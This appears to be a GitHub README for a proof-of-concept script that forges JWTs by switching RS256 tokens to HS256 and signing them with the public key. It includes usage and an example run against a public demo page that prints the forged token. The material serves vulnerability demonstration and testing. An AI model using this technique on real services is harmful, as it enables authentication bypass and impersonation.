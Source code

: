 # JWTconverter
Convert JWT tokens from RS256 to HS256


## Details
For a given RS256 signed JWT token, this script changes the algorithm from RS256 to HS256 and signs the altered token with the public key that you provide. It is only used as a Proof of Concept do demonstrate a vulnerability, and thus does not change the payload.


## Download via Git
Run this command to clone from Git:
```git clone https://github.com/Logeirs/JWTconverter.git```


## Usage
```
JWTconverter.py {JWT token} {Public key file}
```


## Example
Example using the following application: http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php
```
>JWTconverter.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.XlgqI4zNlEsjzGBslj-Dee5C2_WLpDSOVdjFXR4FO4TOx4RMth9mGPdIIeTQZbFyiVoQ9jkX0O3czWTr52y8qB7iJOqDKzwBoi1NPD_xoihFKHrnLxOmR1yLyjXwzlIHURRZ7f_DpPuwqnOYRbjSen4cMVBz0UhgGYe4DNcSjxNmaV2Ksfwd2exTC61g22szQIa_ISyJYU0OxIN2_Ad_XsPpmc_AQ0QcxyYCDcCEkByWUD9adCIBWlrdQhsjXASfEuP5olmvI4Znn2L33fSpAOW1G5DqozTQxyctOXvNuNm3ql9DvE5Wqntr5Z-vs6aQj32uKrVMSutayxuExVH_lQ pubkey.pem


[+] data: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0
[+] HMAC: cd44e3c58199ab7d0eafec318f01cfefa1ecba689761e12db1bc9412571c47b2
[+] signature: zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
-----------
[+] new JWT token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU2MjgyMTAyOCwiZXhwIjoxNTYyODIxMTQ4LCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.zUTjxYGZq30Or-wxjwHP76HsumiXYeEtsbyUElccR7I
```

